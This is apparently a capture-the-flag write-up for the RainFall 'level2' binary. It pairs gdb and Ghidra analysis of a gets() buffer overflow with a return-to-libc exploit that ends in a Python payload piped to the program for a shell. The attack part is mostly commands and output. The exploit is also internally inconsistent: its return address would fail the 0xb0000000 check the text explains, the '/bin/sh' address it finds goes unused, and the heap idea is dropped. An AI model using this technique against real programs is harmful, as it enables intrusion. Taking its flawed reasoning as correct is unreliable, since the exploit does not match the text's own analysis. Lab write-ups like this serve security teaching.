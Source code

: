## Basic examination
There is a single executable **level2**. We run it:
~~~bash
./level2
42 let me pass
42 let me pass
~~~
As we can see,it waits for a stdin input and than prints it. Let's examine the function.

## Assembly dump analysis
As usual, we run **gdb** for a assembly dump for main:
~~~assembly
    0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>  <-- calls function p() and returns 0
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
~~~
As we can see, it just call one function and returns, so the printing must happen in **p()** function. Let's analyze:
~~~assembly
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <-- vulnerable gets() again, like in previous level
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
~~~
We can see there is a buffer overflow vulnerable function **gets()** again, but this time there is no system call thant will let us further. So we must think about the way how to force the execution of what we need. We can use **Ghidra** that will help us understand a little more about p() function with its decompile abilities.
~~~C
void p(void)
{
  void *unaff_retaddr;   //uninitiated void pointer, from the name we can assume it is for storing return address. 
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if (((uint)unaff_retaddr & 0xb0000000) == 0xb0000000) {             //casted as unsigned int (4 bytes), comparing the return address with bitwise AND with 0xb0000000
    printf("(%p)\n",unaff_retaddr);                                   //if true, prints it and exits with 1.
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
~~~
We can already see that the program is **allocating 80 bytes, 76 for the string and 4 bytes for uint variable (4 bytes on 32 bit systems)**. From what we already know about **stack frame** for program execution, this will be our potential offset for force execution of what we might need on the place of the return memory address. **BUT!** this code is little wittier, as the return address comparation here is effectivelly blocking the classical buffer overflow. Why? Read the stuff [HERE](https://unix.stackexchange.com/questions/509607/how-a-64-bit-process-virtual-address-space-is-divided-in-linux). As we can see, 0xbf****** address ranges are historically associated with user memory on 32 bit x86 systems - the stack, in other words. So, the code above is blocking the execution of the return memory addresses located on the stack, exiting the flow when it finds such. Fortunatelly, there is also a **heap**...

## Return to libc
We will use the [**return to libc**](https://en.wikipedia.org/wiki/Return-to-libc_attack) type of attack that is not utiliying the stack but rather works with stuff already in process memory. We construct the attack using this flow
~~~
overflow on offset -> mem address of system() -> mem address of "/bin/sh"
~~~
Using gdb's brakepoint, we will find what we need:
~~~bash
(gdb) b p
Breakpoint 1 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484da in p ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58
~~~
Now we use this to construct the attack:
~~~bash
level2@RainFall:~$ python -c 'print "F" * 80  + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1]' > /tmp/flag2
level2@RainFall:~$ cat /tmp/flag2 - | ./level2
~~~


